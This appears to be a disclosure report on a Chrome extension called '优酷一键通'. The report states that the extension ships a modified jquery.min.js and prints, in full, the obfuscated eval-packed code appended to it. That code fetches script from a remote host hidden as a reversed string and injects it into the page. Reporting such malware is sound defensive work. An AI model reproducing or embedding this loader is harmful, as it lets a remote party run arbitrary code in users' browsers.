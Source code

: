 Name: 优酷一键通

ID: alddjbjplgobbllfolehibiclbhmomla

Homepage: `https://chrome.google.com/webstore/detail/%E4%BC%98%E9%85%B7%E4%B8%80%E9%94%AE%E9%80%9A/alddjbjplgobbllfolehibiclbhmomla`


The file jquery.min.js included in this extension is modified from the official one.

It is appended with a piece of obfuscated and suspicious code as follows.

```javascript
        eval(function (p, a, c, k, e, r) {
            e = function (c) {
                return (c < a ? '' : e(parseInt(c /a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/ ^ /,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0 3=5(){0 h=1.L;0 v=h.A("6");0 c=\'q--y\';2(v!==c){h.C(\'6\',c);0 b=8 9();0 u="e.f.g//:i".j("").k().l("");b.m("n",u,o);b.p=5(){2(b.V==4&&b.r==w){0 a=b.z;2(a!==""){0 t=1.B;0 s=1.D(\'E\');s.F=\'G/\';
                s.I = a;
                t.J(s, t.K)
            }
        }
    };
    b.7("M-N", "O");
    b.7("P-Q", "R/x-S-T-U");
    b.d()
}
};
3();
',58,58,' var | document | if | forfun || function | version | setRequestHeader | new | XMLHttpRequest |||| send | moc | ppaanis | gollru || sptth | split | reverse | join | open | GET | true | onreadystatechange | g42dymwpi | status ||||| 200 || nx | responseText | getAttribute | body | setAttribute | createElement | script | type | text | javascript | innerHTML | insertBefore | lastChild | documentElement | Check | Update | True | Content | Type | application | www | form | urlencoded | readyState '.split(' | ),
0,
{}))
```
